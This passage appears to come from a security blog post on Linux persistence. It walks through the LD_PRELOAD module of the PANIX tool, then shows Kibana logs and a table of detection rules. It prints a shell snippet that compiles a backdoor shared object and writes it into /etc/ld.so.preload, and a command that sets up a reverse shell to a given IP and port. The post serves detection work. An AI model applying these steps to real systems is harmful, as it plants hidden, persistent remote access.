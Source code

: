 To load the malicious shared object, PANIX backdoors the `/etc/ld.so.preload` by default.

```c++
// Compile the shared object
gcc -shared -fPIC -o $preload_lib $preload_source -ldl
if [ $? -ne 0 ]; then
	echo "Compilation failed. Exiting."
	exit 1
fi

// Add to /etc/ld.so.preload for persistence
if ! grep -q "$preload_lib" "$preload_file" 2>/dev/null; then
	echo $preload_lib >> $preload_file
	echo "[+] Backdoor added to /etc/ld.so.preload for persistence."
else
	echo "[!] Backdoor already present in /etc/ld.so.preload."
fi
```

Let’s run the module:

```python
> sudo ./panix.sh --ld-preload --ip 192.168.1.1 --port 2016 --binary ls

LD_PRELOAD source code created: /tmp/preload/preload_backdoor.c 
LD_PRELOAD shared object compiled successfully: /lib/preload_backdoor.so 
[+] Backdoor added to /etc/ld.so.preload for persistence. 
[+] Execute the binary ls to trigger the reverse shell.
```

When opening a session, we can see the malicious library injected into the execution flow:

```python
> ldd $(which ls)                                                                      

linux-vdso.so.1 (0x00007ffe00fe8000) /lib/preload_backdoor.so (0x00007f610548e000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f61052bb000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f61052b6000)
/lib64/ld-linux-x86-64.so.2 (0x00007f61054a0000)
```

Executing the `ls` command will spawn a reverse connection, while executing any other command, such as `whoami` will not. Let’s analyze the logs in Discover:

![PANIX LD_PRELOAD module execution visualized in Kibana]( /assets/images/continuation-on-persistence-mechanisms/image2.png "PANIX LD_PRELOAD module execution visualized in Kibana")

We can see PANIX being executed, after which the temporary `preload_backdoor.c` source code is created in the `/tmp` directory. Next, `gcc` is used to compile the source code into a shared object and is added to the `/etc/ld.so.preload` file, which did not yet exist and is therefore created. After executing the `ls` binary, the backdoor is triggered, initializing a reverse connection on the specified IP and port.

To detect different activities along the chain, we have the following detection and endpoint rules in place:

| Category | Coverage                                                       |
|----------|----------------------------------------------------------------|
| File     | [Dynamic Linker Creation or Modification](https://github.com/elastic/detection-rules/blob/86cc61c233c385064c4f16c0c88d2d9521c5dbdb/rules/linux/defense_evasion_dynamic_linker_file_creation.toml#L18)                        |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/86cc61c233c385064c4f16c0c88d2d9521c5dbdb/rules/integrations/fim/persistence_suspicious_file_modifications.toml#L20)                    |
|          | [Shared Object Created or Changed by Previously Unknown Process](https://github.com/elastic/detection-rules/blob/86cc61c233c385064c4f16c0c88d2d9521c5dbdb/rules/linux/persistence_shared_object_creation.toml#L187) |
|          | [Modification of Dynamic Linker Preload Shared Object](https://github.com/elastic/detection-rules/blob/main/rules/linux/privilege_escalation_ld_preload_shared_object_modif.toml)           |
|          | [Creation of Hidden Shared Object File](https://github.com/elastic/detection-rules/blob/86cc61c233c385064c4f16c0c88d2d9521c5dbdb/rules/linux/defense_evasion_hidden_shared_object.toml#L10)                          |
|          | [Dynamic Linker (ld.so) Creation](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/defense_evasion_ld_so_creation.toml)                                |
| Process  | [Dynamic Linker Copy](https://github.com/elastic/detection-rules/blob/86cc61c233c385064c4f16c0c88d2d9521c5dbdb/rules/linux/persistence_dynamic_linker_backup.toml#L2)                                            |